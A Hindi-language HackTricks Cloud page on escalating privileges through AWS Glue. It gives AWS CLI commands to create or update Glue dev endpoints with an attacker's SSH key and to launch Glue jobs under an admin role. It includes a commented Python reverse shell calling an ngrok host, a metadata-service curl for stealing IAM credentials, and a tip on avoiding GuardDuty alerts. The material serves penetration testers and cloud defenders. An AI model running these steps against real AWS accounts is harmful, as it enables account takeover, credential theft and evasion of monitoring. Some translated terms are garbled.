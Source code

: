 # AWS - Glue Privesc

<details>

<summary><strong>बढ़िया होने के लिए HackTricks का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **HackTricks में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह अनन्य [**NFTs**](https://opensea.io/collection/the-peass-family)
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण** करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) **और** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **github repos में PR जमा करके।**

</details>

## glue

### `iam:PassRole`, `glue:CreateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

`iam:PassRole` और `glue:CreateDevEndpoint` अनुमतियों के साथ एक हमलावर AWS Glue विकास अंतरदेशिका बना सकता है और उसमें एक मौजूदा सेवा भूमिका को पास कर सकता है। फिर वे इंस्टेंस में SSH कर सकते हैं और AWS CLI का उपयोग करके उस भूमिका के अनुमतियों तक पहुंच प्राप्त कर सकते हैं।
```
aws glue create-dev-endpoint --endpoint-name my_dev_endpoint \
--role-arn arn_of_glue_service_role \
--public-key file:///path/to/my/public/ssh/key.pub
```
अब हमलावर बस विकास अंत-बिंदु में **SSH करने की आवश्यकता** होगी ताकि वह भूमिका क्रेडेंशियल्स तक पहुंच सके।
```bash
# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
हालांकि गार्डड्यूटी दस्तावेज़ीकरण में विशेष रूप से नहीं दिया गया है, ग्लू इंस्टेंस से क्रेडेंशियल्स को निकालना एक बुरा विचार होगा। इसके बजाय, **नई इंस्टेंस से AWS API का सीधा उपयोग किया जाना चाहिए**।

**संभावित प्रभाव:** निर्दिष्ट ग्लू सेवा भूमिका में प्राइवेसीक उन्नयन।

### `glue:UpdateDevEndpoint`, (`glue:GetDevEndpoint` | `glue:GetDevEndpoints`)

**`glue:UpdateDevEndpoint`** अनुमति वाले एक हमलावर को **मौजूदा ग्लू विकास अंतरण संबंधित SSH सार्वजनिक कुंजी को अपडेट करने** की क्षमता होगी, फिर उसमें SSH के माध्यम से प्रवेश करने और संलग्नित भूमिका के अधिकारों तक पहुंच होगी।
```bash
# Change public key to connect
aws glue --endpoint-name target_endpoint \
--public-key file:///path/to/my/public/ssh/key.pub

# Get the public address of the instance
## You could also use get-dev-endpoints
aws glue get-dev-endpoint --endpoint-name privesctest

# SSH with the glue user
ssh -i /tmp/private.key ec2-54-72-118-58.eu-west-1.compute.amazonaws.com
```
अब हमलावर बस विकास अंतबिंदु में **SSH करने के लिए रोल क्रेडेंशियल्स तक पहुंच प्राप्त करने की आवश्यकता होगी**। AWS API को नए इंस्टेंस से सीधे एक्सेस किया जाना चाहिए ताकि चेतावनियों को ट्रिगर न किया जाए।

**संभावित प्रभाव:** ग्लू सेवा रोल को प्राइविलेज इस्केलेशन करना।

### `iam:PassRole`, (`glue:CreateJob` | `glue:UpdateJob`), (`glue:StartJobRun` | `glue:CreateTrigger`)

इन अनुमतियों के साथ एक हमलावर **किसी भी ग्लू सेवा खाते को जोड़कर एक नया नौकरी बना सकता है/अपडेट कर सकता है** और इसे शुरू कर सकता है। नौकरी विषम पायथन कोड को निष्पादित कर सकती है, इसलिए एक प्रतिलोम शैल को प्राप्त किया जा सकता है और इसका उपयोग करके जोड़े गए रोल के **IAM क्रेडेंशियल्स चुरा सकता है**।
```bash
# Content of the python script saved in s3:
#import socket,subprocess,os
#s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#s.connect(("2.tcp.ngrok.io",11216))
#os.dup2(s.fileno(),0)
#os.dup2(s.fileno(),1)
#os.dup2(s.fileno(),2)
#p=subprocess.call(["/bin/sh","-i"])
#To get the IAM Role creds run: curl http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy


# A Glue role with admin access was created
aws glue create-job \
--name privesctest \
--role arn:aws:iam::93424712358:role/GlueAdmin \
--command '{"Name":"pythonshell", "PythonVersion": "3", "ScriptLocation":"s3://airflow2123/rev.py"}'

# You can directly start the job
aws glue start-job-run --job-name privesctest
# Or you can create a trigger to start it
aws glue create-trigger --name triggerprivesc --type SCHEDULED \
--actions '[{"JobName": "privesctest"}]' --start-on-creation \
--schedule "0/5 * * * * *"  #Every 5mins, feel free to change
```
**संभावित प्रभाव:** निर्दिष्ट ग्लू सेवा भूमिका को प्राइवेसी करना।

### `glue:UpdateJob`

केवल अपडेट अनुमति के साथ ही एक हमलावर्धी व्यक्ति को पहले से जुड़े भूमिका के IAM क्रेडेंशियल्स चुरा सकते हैं।

**संभावित प्रभाव:** जुड़े ग्लू सेवा भूमिका को प्राइवेसी करना।

<details>

<summary><strong>हैकट्रिक्स का समर्थन करें और लाभ प्राप्त करें!</strong></summary>

* यदि आप अपनी कंपनी को **हैकट्रिक्स में विज्ञापित करना चाहते हैं** या यदि आप **PEASS के नवीनतम संस्करण देखना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) का खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या मुझे **ट्विटर** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का** **अनुसरण करें।**
* **अपने हैकिंग ट्रिक्स साझा करें,** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में पीआर जमा करके।

</details>
